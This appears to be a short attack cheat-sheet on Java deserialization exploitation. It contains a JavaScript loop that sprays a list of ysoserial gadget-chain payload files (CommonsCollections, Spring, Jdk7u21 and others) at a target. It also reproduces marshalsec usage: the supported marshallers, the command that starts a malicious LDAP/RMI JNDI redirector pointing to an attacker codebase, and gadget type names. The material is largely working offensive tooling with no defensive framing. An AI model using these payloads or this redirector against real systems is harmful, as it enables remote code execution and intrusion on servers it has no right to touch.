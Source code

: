 ```

var a = "BeanShell1.bin,CommonsCollections6.bin,Jython1.bin,C3P0.bin,Groovy1.bin,MozillaRhino1.bin,Clojure.bin,Hibernate1.bin,Myfaces1.bin,CommonsCollections1.bin,Hibernate2.bin,Myfaces2.bin,CommonsCollections2.bin,JBossInterceptors1.bin,ROME.bin,CommonsCollections3.bin,JSON1.bin,Spring1.bin,CommonsCollections4.bin,JavassistWeld1.bin,Spring2.bin,CommonsCollections5.bin,Jdk7u21.bin".split(/[,]/);

for(var k in a)
{
	console.log("start payload: " + a[k]);
	fnSend(a[k]);
}

node  myapp/sd.js

```

# marshalsec反序列化
https://github.com/mbechler/marshalsec
## Marshaller
```
BlazeDSAMF(0|3|X)
Hessian|Burlap
Castor
Jackson
Java
JsonIO
JYAML
Kryo
KryoAltStrategy
Red5AMF(0|3)
SnakeYAML
XStream
YAMLBeans
```
Run a JNDI reference redirector service pointing to that codebase - two implementations are included: marshalsec.jndi.LDAPRefServer and RMIRefServer.
```
java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.jndi.(LDAP|RMI)RefServer <codebase>#<class> [<port>]
```
## GadgetType
```
    UnicastRef
    UnicastRemoteObject
    Groovy
    SpringPropertyPathFactory
    SpringPartiallyComparableAdvisorHolder
    SpringAbstractBeanFactoryPointcutAdvisor
    Rome
    XBean
    Resin
    CommonsConfiguration
    LazySearchEnumeration
    BindingEnumeration
    ServiceLoader
    ImageIO
    CommonsBeanutils
    C3P0WrapperConnPool
    C3P0RefDataSource
    JdbcRowSet
    ScriptEngine
```
